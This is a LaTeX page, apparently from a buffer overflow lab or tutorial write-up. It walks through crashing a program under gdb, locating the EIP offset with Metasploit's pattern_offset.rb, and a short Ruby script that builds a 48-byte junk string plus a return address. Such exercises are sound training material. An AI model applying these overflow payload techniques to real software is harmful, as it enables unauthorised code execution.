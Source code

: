 \documentclass[12pt, bibliography=totocnumbered]{article}
\begin{document}
\newpage
Run gdb, attach to process and hit c and press enter

Now the program will crash and when we take a look at \texttt{EIP}, We can see a chunk of our input text.

\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/3/3.png}}
\end{figure}

Now get the offset value from metasploit by using \texttt{pattern\_offset.rb} 

\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/3/4.png}}
\end{figure}
\newpage
Now, lets craft a ruby program to create the payload string with our return address at position 48.

\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "A"*48
Ret_address = "\x41\x38\x30\x30" #0x30303841
Payload = SomeJunk + Ret_address
print Payload
$stdout.flush
\end{verbatim}
\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/3/5.png}}
\end{figure}
\end{document}
